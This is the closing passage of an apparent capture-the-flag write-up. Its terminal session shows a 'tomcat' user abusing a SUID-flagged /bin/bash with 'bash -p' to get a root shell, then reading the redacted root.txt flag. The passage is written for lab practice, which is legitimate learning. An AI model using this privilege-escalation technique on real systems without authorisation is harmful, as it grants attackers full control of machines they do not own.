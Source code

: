 ```
tomcat@ubuntu:/home/jack$ ls -la /bin/bash
ls -la /bin/bash
-rwsr-sr-x 1 root root 1037528 Jul 12  2019 /bin/bash
tomcat@ubuntu:/home/jack$ /bin/bash -p 
/bin/bash -p
bash-4.3# cd /root
cd /root
bash-4.3# ls -la
ls -la
total 24
drwx------  3 root root 4096 Aug 14  2019 .
drwxr-xr-x 22 root root 4096 Aug 14  2019 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x  2 root root 4096 Aug 14  2019 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Aug 14  2019 root.txt
bash-4.3# cat root.txt
cat root.txt
[REDACTED]

```
We are done
Greet from <a href="https://twitter.com/blackninja233" target="_blank" rel="noopener">blackninja23</a> 



